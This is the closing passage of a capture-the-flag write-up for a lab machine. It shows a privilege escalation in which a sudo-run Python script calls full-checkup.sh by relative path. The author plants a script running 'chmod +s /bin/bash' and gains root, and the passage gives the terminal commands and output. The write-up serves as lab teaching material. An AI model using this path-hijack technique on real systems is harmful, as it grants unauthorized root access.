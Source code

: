 The full check up doesn't use full path so we can abuse it and create our own full-checkup.sh that will make bash setuid:

```
svc@busqueda:/tmp$  sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ echo "chmod +s /bin/bash" > full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root)
```

Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337
